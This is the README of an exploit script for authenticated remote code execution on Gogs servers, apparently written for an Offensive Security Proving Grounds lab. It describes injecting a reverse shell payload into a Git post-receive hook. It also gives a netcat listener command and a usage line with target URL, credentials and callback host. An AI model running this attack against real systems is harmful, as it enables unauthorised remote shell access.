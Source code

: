 # gogs-hooker 💀

An authenticated remote code execution exploit targeting Gogs instances via Git hook injection.

This script was created for the Assignment lab on Offensive Security's Proving Grounds.

---

## 💡 What It Does

- Logs into a Gogs instance using valid credentials
- Creates a new private repository
- Injects a reverse shell payload into the post-receive Git hook
- Triggers the hook by pushing a commit, granting you a shell 😈

---

## ⚠️ Requirements

- Python 3.x
- Gogs instance with valid user credentials
- Listener ready (e.g., `nc -lvnp 4444`)

Install the requirements with:

```bash
pip install -r requirements.txt
```

---

## 🚀 Usage

```bash
python3 gogs-hooker.py \
  --url http://target-gogs-url:port/ \
  --username your_username \
  --password your_password \
  --lhost your_ip \
  --lport 4444
```


